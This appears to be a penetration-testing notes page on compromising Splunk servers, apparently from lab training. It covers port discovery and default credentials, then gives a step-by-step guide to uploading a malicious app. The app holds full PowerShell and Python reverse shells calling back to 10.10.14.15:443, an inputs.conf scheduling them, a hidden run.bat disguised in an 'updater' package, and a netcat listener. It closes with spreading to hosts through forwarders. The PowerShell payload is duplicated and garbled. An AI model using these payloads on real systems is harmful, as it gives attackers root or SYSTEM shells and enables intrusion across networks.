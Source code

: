 # Splunk

Typically used as a SIEM tool for security monitoring and sometimes business analytics. This is typically encounter on the internal portion of a pentest. The biggest focus of Splunk during an assessment would be weak or null authentication because admin access to Splunk gives us the ability to deploy custom applications that can be used to quickly compromise a Splunk server and possibly other hosts in the network depending on the way Splunk is set up.

> Splunk is typically running as ROOT or NT AUTHORITY/SYSTEM on the servers it is installed on, so RCE can be powerful.&#x20;

### Discovery/Footprinting&#x20;

Splunk runs by default on port 8000.

```shell-session
sudo nmap -sV 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 08:43 EDT
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

> when accessing the instance, splunk typically uses https.\
>

On older versions of Splunk, the default credentials are `admin:changeme`

### Splunk Enterprise Trial

The Splunk Enterprise trial becomes a free version after 60 days without requiring authentication. Its not uncommon to be installed as part of a POC or trial and forgotten about. fs

Once logged in to Splunk (or having accessed an instance of Splunk Free), we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.

### Code Execution via built in functionality&#x20;

We can use the following package to install a malicious application on splunk to achieve code execution:&#x20;

[https://github.com/0xjpuff/reverse\_shell\_splunk](https://github.com/0xjpuff/reverse_shell_splunk)\
\
1\. Create a directory with following structure:&#x20;

```shell-session
splunk_shell/
├── bin
└── default

# Bin will contain our payload scripts, default will contain inputs.conf file
```

2. Create our Payloads&#x20;
   1.  PowerShell (Windows) run.ps1

       ```powershell-session
       #A simple and small reverse shell. Options and help removed to save space. 
       #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
       $client = New-Object System.Net.Sockets.TCPClient$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
       ```
   2.  Python (Linux) rev.py&#x20;

       ```python
       import sys,socket,os,pty

       ip="10.10.14.15"
       port="443"
       s=socket.socket()
       s.connect((ip,int(port)))
       [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
       pty.spawn('/bin/bash')
       ```
3.  Create inputs.conf, which defines which scripts are ran and the interval&#x20;

    ```shell-session
    [script://./bin/rev.py]
    disabled = 0  
    interval = 10  
    sourcetype = shell 

    [script://.\bin\run.bat]
    disabled = 0
    sourcetype = shell
    interval = 10
    ```
4.  Create run.bat&#x20;

    ```shell-session
    @ECHO OFF
    PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
    Exit
    ```
5.  Tar the package&#x20;

    ```shell-session
    tar -cvzf updater.tar.gz splunk_shell/
    ```
6.  start listener&#x20;

    ```shell-session
    sudo nc -lnvp 443
    ```
7. Upload App
   1.

       <figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

       <figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Lateral Movement&#x20;

If the splunk host is a deployment server, we can possibly achieve RCE on any other hosts with universal splunk forwarders installed on them. our package must  be placed in `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.



